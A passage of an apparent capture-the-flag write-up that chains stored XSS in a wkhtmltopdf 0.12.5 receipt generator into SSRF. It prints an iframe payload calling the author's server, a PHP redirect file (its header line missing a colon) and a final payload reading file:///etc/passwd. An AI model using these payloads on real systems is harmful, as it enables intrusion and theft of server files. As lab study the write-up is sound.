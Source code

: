 NahamSec explains it like you can use XSS vulnerability to create another opportunity for SSRF to your malicious server. This is interesting case. Let's try it.

I already changed payload to \<iframe> and added in source my python server - `<iframe src=http://<ip-address>:8888/hello></iframe>`. Checked my python server:

```
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.2.70 - - [15/Aug/2022 22:13:49] code 404, message File not found
10.10.2.70 - - [15/Aug/2022 22:13:49] "GET /hello HTTP/1.1" 404 -
```

So, we have this case: server received XSS, next server-code which generates PDF triggered it and XSS performed a HTTP request to my server. Perfect. But what to do further?\
You can check what generator is used with pdfinfo tool:

```
pdfinfo ~/Downloads/15082022-lbJhTcwuHeh32kHs0pOB.pdf 
Title:           Receipt
Creator:         wkhtmltopdf 0.12.5
Producer:        Qt 4.8.7
CreationDate:    Mon Aug 15 22:15:03 2022 MSK
Custom Metadata: no
Metadata Stream: no
Tagged:          no
UserProperties:  no
Suspects:        no
Form:            none
JavaScript:      no
Pages:           1
Encrypted:       no
Page size:       595 x 842 pts (A4)
Page rot:        0
File size:       53361 bytes
Optimized:       no
PDF version:     1.4
```

Thus, PDF generator is wkhtmltopdf 0.12.5. Google about it...\
Again beautiful article about how to exploit this generator and SSRF - [http://hassankhanyusufzai.com/SSRF-to-LFI/](http://hassankhanyusufzai.com/SSRF-to-LFI/).

Dude created php file and hosted on his server to which XSS will perform HTTP request. This php code will redirect target back-end to something in internal network or just to read some file on server. PHP file : `<?php header('location' . $_GET['path']); ?>`

Now, we need actually to switch our python3 http server on something that can execute PHP code.\
&#x20;A little bit payload modification: `<iframe width=300 height=300 src=http://<ip-address>:8888/ssrf.php?path=file:///etc/passwd`.
